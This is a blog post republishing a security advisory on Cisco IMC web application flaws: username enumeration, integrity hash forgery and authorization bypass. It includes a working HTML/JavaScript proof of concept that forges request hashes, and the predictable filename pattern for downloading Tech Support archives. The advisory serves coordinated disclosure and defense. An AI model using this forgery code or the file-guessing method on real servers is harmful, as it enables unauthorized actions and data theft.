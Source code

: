 ```yaml
---
layout: post
title: 'Cisco IMC Server: Multiple Vulnerabilities'
excerpt_separator: "<!--more-->"
categories:
  - "cve-advisory"
tags:
  - appsec
  - pentesting
  - cisco
  - "imc server"
last_modified_at: 2021-12-24T14:44:00
---
```


{% include note.html content="This advisory was originally published on [F-Secure LABS](https://labs.f-secure.com/advisories/cisco-imc-server-multiple-vulnerabilities/)" %}

<!-- {% include toc.html %} -->
<!-- Again, TOC messes things up -->

Several vulnerabilities were discovered by F-Secure Consulting in the Cisco Integrated Management Controller (IMC) web application (CVE-2020-26062, CVE-2020-26063 and CSCvv07284). An example datasheet of the product can be found [here](https://www.cisco.com/c/en/us/products/collateral/servers-unified-computing/ucs-b-series-blade-servers/data_sheet_c78-728802.html).

The vulnerabilities combined can be leveraged to enumerate users and bypass authorisation controls. 

<!--more-->

## Vulnerabilities Discovered

Three security issues were identified affecting the IMC application version 4.0(4h) and potentially other versions. The complete range of products affected can be found on the relevant Cisco Pages:

* Cisco Integrated Management Controller Software Username Enumeration Vulnerability<br/>[https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cimc-enum-CyheP3B7](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cimc-enum-CyheP3B7)

* Cisco Integrated Management Controller API Request Hash Modification<br/>[http://bst.cloudapps.cisco.com/bugsearch/bug/CSCvv07284](http://bst.cloudapps.cisco.com/bugsearch/bug/CSCvv07284)

* Cisco Integrated Management Controller Software Authorization Bypass Vulnerability<br/>[https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cimc-auth-zWkppJxL](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cimc-auth-zWkppJxL)


### Username Enumeration
> CVE-2020-26062 - CVSSv3.1 Score: 5.3

The Username Enumeration vulnerability was discovered within the log in page of the IMC web interface. In its default configuration, there is no account lockout threshold enforced; offering the opportunity for an adversary to brute-force enumerated accounts.


### Integrity Hash Forgery
> CCSCvv07284 - CVSSv3.1 Score: 3.1

Once authenticated to the application communications with the server consist of HTTP POST requests sent to a set of XML-based APIs. These API calls use an integrity protection scheme. User supplied parameter values are hashed and the resulting value is placed in the `CPSG_VAR HTTP` header. The hashing functionality is implemented in client-side JavaScript. 

The JavaScript hashing code was re-implemented in the form of an an HTML page. The source code is presented below:

```html
<html>
 <body>
   <head>
       <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.0.0/crypto-js.min.js"></script>   
       <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.0.0/hmac-sha256.min.js"></script>       
       <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.0.0/enc-base64.min.js"></script>  
   </head>

   <script>
     function invoke(){
       var sessionCookie = document.getElementById('sessionCookie').value
       var sessionID = document.getElementById('sessionID').value
       var queryStringURL = document.getElementById('queryString').value 
       var queryString = decodeURIComponent(decodeURIComponent(queryStringURL))
       var hash = hashFnv32(sessionID,queryString)      
       document.getElementById('output').innerHTML = hash
       document.getElementById('http').innerHTML = `
       POST /data HTTP/1.1<br>
       Host: <IPaddress><br>
       Referer: https://<IPaddress>/index.html<br>
       CSPG_VAR: ` + hash + `<br>
       Content-Type: application/x-www-form-urlencoded<br>
       Cookie: username=; sessionCookie=` + sessionCookie +`<br>
       Content-Length: 105<br><br>
       sessionID=`+sessionID+`&queryString=`+queryStringURL+`<br>`
    }

     function hashFnv32(a, b) {
           console.log("hashFnv32("+a+","+b+") called") 
           var d, e = 40389;
           var g = Math.floor(a.length / 4);
           for (d = 0; d < g; d++) e ^= a.charCodeAt(d), e += e << 1;
           a = e.toString();
           var ret = CryptoJS.HmacSHA512(b,a).toString()
           console.log("hashFnv32 returns "+ ret)
           return ret
      }
   </script>


   <form action="#">
     <p>sessionCookie</p>
     <input type="text" id="sessionCookie" />
     <p>sessionID</p>
     <input type="text" id="sessionID" />
     <p>queryString (double urlencoded)</p>
     <input type="text" id="queryString" />
     <input  type="button" value="Hash!" />
   </form>
   <div id="output"></div>
   <br><br>
   <div id="http"></div>
 </body>
</html>
```

The screenshot below illustrates its use to generate valid requests that will pass integrity checks.

![](/assets/img/cisco-imc-hash-forgery.png)


### Authorization Bypass
> CVE-2020-26063 - CVSSv3.1 Score: 5.4

Authorisation checks were improperly configured and/or found to be missing on 2 of the IMC API endpoints. It is possible to forge a request using the Integrity Hash Forgery (CCSCvv07284) issue that results in the execution of functionality that is not normally available to some users, such as those with "read-only" roles, for example the "ping" and "set SSH server banner" functions.

The application also supports the generation of "Tech Support" archives by administrator users. The archives contain configuration files, detailed runtime logs and full directories from the server’s filesystem. If the filename can be 'guessed' it can be downloaded directly e.g. `/data/saveTechSupportWithHostname(<imc-hostname>-20200714-161002.tar.gz)`. The file is generated in a predictable format: `[IMC hostname]-[YYYYMMDD]-[HHMMSS].tar.gz`. Once the file is requested it is immediately deleted from the server, limiting the attacker’s window of opportunity. 


## Credit

The issues were discovered by Leonidas Tsaousis ([@laripping](https://twitter.com/laripping)) and Thomas Large of F-Secure Consulting.



## Timeline

| Date |	Summary |
| ---- |  ------- |
| 20/07/2020 | Issues disclosed to Cisco PSIRT | 
| 20/07/2020 | Cisco PSIRT acknowledged receipt of the report | 
| 05/08/2020 | Cisco triaged and reproduced the issues |
| 28/09/2020 | Confirmation of remediation plan, agreement of join disclosure date |
| 04/11/2020 | Joint disclosure by Cisco and F-Secure, Advisory released |

